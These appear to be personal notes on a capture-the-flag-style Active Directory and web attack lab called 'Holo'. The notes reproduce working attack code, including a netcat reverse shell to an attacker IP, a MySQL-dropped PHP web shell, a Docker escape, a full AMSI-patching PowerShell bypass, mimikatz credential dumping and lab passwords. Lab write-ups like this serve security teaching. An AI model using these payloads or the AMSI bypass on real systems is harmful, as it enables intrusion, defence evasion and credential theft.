

# HOLO

```
Welcome to Holo!

Holo is an Active Directory and Web Application attack lab that teaches core web attack vectors and advanced\obscure Active Directory attacks along with general red teaming methodology and concepts.

In this lab, you will learn and explore the following topics:

    .NET basics
    Web application exploitation
    AV evasion
    Whitelist and container escapes
    Pivoting
    Operating with a C2 (Command and Control) Framework
    Post-Exploitation
    Situational Awareness
    Active Directory attacks

You will learn and exploit the following attacks and misconfigurations:

    Misconfigured sub-domains
    Local file Inclusion
    Remote code execution
    Docker containers
    SUID binaries
    Password resets
    Client-side filters
    AppLocker
    Vulnerable DLLs
    Net-NTLMv2 / SMB

This network simulates an external penetration test on a corporate network "Hololive" with one intended kill chain. All concepts and exploits will be taught in a red teaming methodology and mindset with other methods and techniques taught throughout the network.
```


## nmap

```
Scope of engagement - (10.200.138.0/24) and (192.168.100.0/24)
```


```

What is the last octet of the IP address of the public-facing web server?
33

How many ports are open on the web server?
3

What CME is running on port 80 of the web server?
wordpress

What version of the CME is running on port 80 of the web server?
5.5.3

What is the HTTP title of the web server?
holo.live
```


## Web Fuzzing


### SUBDOMAIN FUZZ

```bash
ffuf -u "http://holo.live" -w "/usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt" -H "Host: FUZZ.holo.live"  -fs 21456
```





```
What domains loads images on the first web page?
www.holo.live

What are the two other domains present on the web server? Format: Alphabetical Order
admin.holo.live, dev.holo.live
```


### Directory Fuzzing


```
What file leaks the web server's current directory?
robots.txt

What file loads images for the development domain?
img.php

What is the full path of the credentials file on the administrator domain?
/var/www/admin/supersecretdir/creds.txt
```


### Vulnerability


**LFI Local file inclusion**


Using LFI to get credentials


```
admin:DBManagerLogin!
```


```

What file is vulnerable to LFI on the development domain?
img.php

What parameter in the file is vulnerable to LFI?
file

What file found from the information leak returns an HTTP error code 403 on the administrator domain?
/var/www/admin/supersecretdir/creds.txt

Using LFI on the development domain read the above file. What are the credentials found from the file?
admin:DBManagerLogin!
```


### RCE


```
What file is vulnerable to RCE on the administrator domain?
dashboard.php

What parameter is vulnerable to RCE on the administrator domain?
cmd

What user is the web server running as?
www-data
```


reverse shell through netcat

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.50.135.35 8000 >/tmp/f
```


## Stablizing shell


```url
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```

```
Syntax: python -c 'import pty; pty.spawn("/bin/bash")'

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.

1. stty raw -echo; fg

2. fg

Note: If you're using ZSH, you must combine stty raw -echo;fg  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.

3. reset

4. export SHELL=BASH

For the next two steps, you will need to use the information you got from step 1. 

5. export SHELL=BASH

6. export TERM=<TERMINAL>

7. stty rows <num> columns <cols>
```


## Docker

port scanner

```
#!/bin/bash
ports=(21 22 53 80 443 3306 8443 8080)
for port in ${ports[@]}; do
timeout 1 bash -c "echo \"Port Scan Test\" > /dev/tcp/192.168.100.1/$port && echo $port is open || /dev/null" 
done
```


```
Read the above and scan ports on the container gateway

What is the Default Gateway for the Docker Container?
192.168.100.1

What is the high web port open in the container gateway?
8080

What is the low database port open in the container gateway?
3306
```


### MYSQL DATABASE

1.  There is a file db_connect.php which has hardcoded credentials in /var/www/admin


```
DB_IP 192.168.100.1
DB_NAME DashboardDB
DB_USER admin
DB_PASSWD !123SecureAdminDashboard321!
```


2. Accessing Database


```
admin DBManagerLogin!
gurag AAAA
```


```
What is the server address of the remote database?
192.168.100.1

What is the password of the remote database?
!123SecureAdminDashboard321!

What is the username of the remote database?
admin

What is the database name of the remote database?
DashboardDB

What username can be found within the database itself?
gurag
```


### Dropping a file using  MYSQL

https://cloudinvent.com/blog/backdoor-webserver-using-mysql-sql-injection/


```
CREATE TABLE hacker ( hacker varchar(255) );

INSERT INTO hacker (hacker) VALUES (‘<?php $cmd=$_GET[“cmd”];system($cmd);?>’);

SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';

curl 192.168.100.1:8080/shell.php?cmd=whoami
```


```
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```

```
curl 192.168.100.1:8080/shell.php?cmd=whoami
```


### Breaking out of Docker


1. Dropped php file can be used to download a reverse shell from attacker machine.
2. The downloaded shell script will execute a give a shell.


## Priv Esc


1. Search for SUID binary

```
find / -perm -u=s -type f 2>/dev/null
```


2. gtfobins to escalate to privileges

```bash
run -v /:/mnt --rm -it 56def654ec22 chroot /mnt sh
```


### Persitent

1. Copy shadow file
2. hashcat mode 1800

 ```
 hashcat -m 1800 hashes.txt rockyou.txt
 ```


```
linux-admin : linuxrulez
```


### Tunnelling


#### chisel and proxychains


1. Used for port forwarding and tunneling to access one subnet from another, which you might not have direct access to.
2. To proxy or route the traffic from alternate subnet

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.

To create a SOCKs server with Chisel, you will only need two commands ran  on the target and the attacking machine, outlined below.

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`


Now that we have a SOCKs server set up, we need to interpret and  manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the  proxy in the command line. To add the SOCKs server to proxychains, you  will need to edit `/etc/proxychains.conf`. You can see an example configuration below.


You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route  through the proxy with proxychains. An example usage can be found below.


#### sshuttle

The second tool we will be looking at is sshuttle. Sshuttle is unique in  its approaches to pivoting because all of its techniques are done  remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are  that it will only work if there is an ssh server running on the machine, and it will not work on Windows hosts. You can download sshuttle from  GitHub, https://github.com/sshuttle/sshuttle

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this  parameter, you will specify the user and target like you would for a  standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of  syntax below.

Syntax: `sshuttle -r USER@MACHINE_IP 0.0.0.0/0`


```
shuttle -r linux-admin@10.200.138.33 0/0 -x 10.200.138.33
```


## Windows webserver

1. now we can access all the other machines hosted internally


### Tokens


```
DO it later
```


## AV EVASION


### AMSI BYPASS

1. Patching amsi.dll

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```


```
The first section of code lines 3 - 10 will use C# to call-in functions from Kernel32 to identify where amsi.dll has been loaded.

[DllImport(`"kernel32`")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

Once the C# functions are called in, the code will use Add-type to load the C# and identify the AmsiScanBuffer string in lines 13 - 16. This string can be used to determine where amsi.dll has been loaded and the address location using GetProcAddress.

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);

The next section of code lines 17 - 23 will modify memory permissions and patch amsi.dll to return a specified value.

[UInt32]$Size = 0x5;
[UInt32]$Size = 0x5;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);

At this stage, we should have an AMSI bypass that partially works. Signatures for most AMSI bypasses have been crafted, so this means that AMSI and Defender themselves will catch these bypasses. This means we will need to obfuscate our code a slight bit to evade signatures. AMSI obfuscation will be covered in the next task.
```


### OBFUSCATION

invoke-obfuscation


## Reverse shell


1. We can upload php scripts instead of images.


2. We can access them in images directory


3. Verify code execution by making a get request to your server


4. The script was blocked by AV
5. we bypassed AV by using invoke-obfuscation and getting a simple reverse shell


```
got system as NT AUTHORITY\ROOT
```


## Covenant

1. Create a listener
2. Create a grunt stager through launcher
3. drop it on the box and execute it


4. grunt shell


5. Using mimikatz to drop logon passwords


```
watamet
Nothingtoworry!
NTLMHASH: d8d41e6cf762a8c77776a1843d4141c9
```


## crackmapexec

1. To try to login into all the hosts with username and password we got


### rdp


```
proxychains xfreerdp /v:10.200.138.35 /u:watamet /p:Nothingtoworry! /dynamic-resolution
```


2. also trying to see if there are any RDP ports on.

```
10.200.138.35
```


## PC-FILESRV01


## powerview

```
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon#powerview
https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
```

